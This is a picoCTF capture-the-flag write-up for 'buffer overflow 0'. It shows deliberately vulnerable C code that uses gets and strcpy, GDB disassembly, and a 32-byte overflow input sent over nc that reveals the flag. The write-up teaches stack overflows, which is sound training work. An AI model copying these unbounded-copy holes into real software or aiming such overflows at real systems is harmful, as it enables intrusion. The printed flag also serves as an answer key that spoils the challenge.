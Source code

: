 # buffer overflow 0
## Description
Smash the stack  
Let's start off simple, can you overflow the correct buffer? The program is available [here](vuln). You can view source [here](vuln.c). And connect with it using:  
`nc saturn.picoctf.net 51110`
## Hints
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run `man gets` and read the BUGS section. How many characters can the program really read?
## Solution
1. Check out `vuln.c` and notice that it uses `strcpy` in `vuln`, which will copy source to destination until it gets a null character. It also prints the flag if a segmentation violation occurs (`sigsegv_handler`).
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
2. Take a look at the assembly for `vuln` in GDB. Looks like ultimately 28 bytes are reserved on the stack and `buf2` is located at `[ebp-0x18]`.
```assembly
0x00001353 <+0>:	endbr32 
0x00001357 <+4>:	push   ebp
0x00001358 <+5>:	mov    ebp,esp
0x0000135a <+7>:	push   ebx
0x0000135b <+8>:	sub    esp,0x14
0x0000135e <+11>:	call   0x149b <__x86.get_pc_thunk.ax>
0x00001363 <+16>:	add    eax,0x2c49
0x00001368 <+21>:	sub    esp,0x8
0x0000136b <+24>:	push   DWORD PTR [ebp+0x8]
0x0000136e <+27>:	lea    edx,[ebp-0x18]
0x00001371 <+30>:	push   edx
0x00001372 <+31>:	mov    ebx,eax
0x00001374 <+33>:	call   0x1170 <strcpy@plt>
0x00001379 <+38>:	add    esp,0x10
0x0000137c <+41>:	nop
0x0000137d <+42>:	mov    ebx,DWORD PTR [ebp-0x4]
0x00001380 <+45>:	leave  
0x00001381 <+46>:	ret
```
3. Let's smash through the stack with 24 bytes of garbage and an extra 8 bytes to overwrite old `ebp` and the return address.
```console
% nc saturn.picoctf.net 51110
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```
